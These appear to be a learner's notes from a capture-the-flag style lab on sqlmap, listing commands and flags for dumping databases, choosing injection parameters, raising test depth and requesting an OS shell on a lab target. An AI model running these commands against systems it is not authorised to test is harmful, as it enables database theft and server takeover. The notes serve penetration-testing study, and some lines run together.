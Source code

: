 # sqlmap
*sqlmap* is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections. [More](https://github.com/sqlmapproject/sqlmap)
```
sqlmap -r request.txt --dbms=mysql --dump sqlmap -r request.txt -p username

sqlmap -u http://domain.name --form

sqlmap --dbms=SQLite -r Burp --tamper=cspace2comment --level=3 -- dump-all
```
```
-r uses the intercepted request you saved earlier What flag sets which database is in the target host's backend?  
Example: If the flag is set to mysql then sqlmap will only test mysql injections).
--dbms tells SQLMap what type of database management system it is How do you dump the table entries of the database?
--dump attempts to outputs the entire database
How do you select(lol) which parameter to use?(Example: in the url http://ex.com?test=1 the parameter would be test.)
-p use the pramater
how do you select the level of depth sqlmap should use(higher = more accurate and more tests in general).
--level
How do you ask sqlmap to try to get an interactive os-shell?
--os-shell
What flag dumps all data from every table
--dump-all
#location of dump csv /home/pthsovann/.local/share/sqlmap/output/10.10.64.78/‐ dump/
```
